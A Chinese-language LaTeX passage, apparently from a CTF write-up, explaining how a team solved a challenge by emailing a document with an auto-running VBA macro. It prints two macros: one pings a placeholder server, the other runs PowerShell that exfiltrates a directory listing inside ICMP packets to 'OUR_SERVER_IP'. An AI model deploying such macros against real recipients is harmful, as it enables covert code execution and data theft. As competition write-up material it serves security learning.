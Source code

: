 \documentclass[a4paper,UTF8]{ctexart}
\begin{document}
但是对方并没有成功执行我的脚本（或者说执行成功了但是邮件没有投递到我的邮箱中）。由于想不到其他测试手段，最后只能无奈放弃这道题。下一个小节讨论的是正确解法。

\subsection{正确思路}

Samurai战队给出的测试方法是ping，代码如下：

\begin{verbatim}
Sub AutoOpen()
    Call Debugging
End Sub

Public Function Debugging() As Variant
    Set objShell = CreateObject("Wscript.Shell")
    strCmd = "cmd.exe /c ""ping SERVER\_IP"""
    Set objExec = objShell.Exec(strCmd)
End Function
\end{verbatim}

在把邮件发送给对方后，他们通过tcpdump捕捉到了回复：

\begin{quizdesc}
10:29:21.411226 IP VICTIM-IP > MY-IP: ICMP echo request, id 1, seq 21, length 40
\end{quizdesc}

随后他们尝试了使用shell，但是他们失败了。于是他们决定尝试使用ICMP包来传输数据。理论依据是下面两张图片：

\begin{figure}[H]
\centering
  \texttt{[image: func.eps]}
  \caption{System.Net.NetworkInformation.Ping 在 MSDN中的定义}\label{ping}
\end{figure}

\begin{figure}[H]
\centering
  \texttt{[image: icmp.eps]}
  \caption{ICMP包数据结构}\label{icmp}
\end{figure}

图 \ref{ping}显示了ping函数需要需要IP address, timeout, 以及a buffer作为参数。图 \ref{icmp}则显示了ICMP echo request中有一个数据缓冲区，可以通过第三个参数Send函数进行设置。

接下来他们写了一个脚本对附件保存的路径进行dir，试图发现一些线索，代码如下：

\begin{verbatim}
Sub AutoOpen()
    Call Debugging
End Sub

Public Function Debugging() As Variant
    Set objShell = CreateObject("Wscript.Shell")    
    strCmd = "powershell ""$dir=dir;(New-Object System.Net.NetworkInformation.Ping).Send('OUR\_SERVER\_IP', 1000, [system.Text.Encoding]::UTF8.GetBytes($dir)"""
    Set objExec = objShell.Exec(strCmd)
End Function
\end{verbatim}
\end{document}
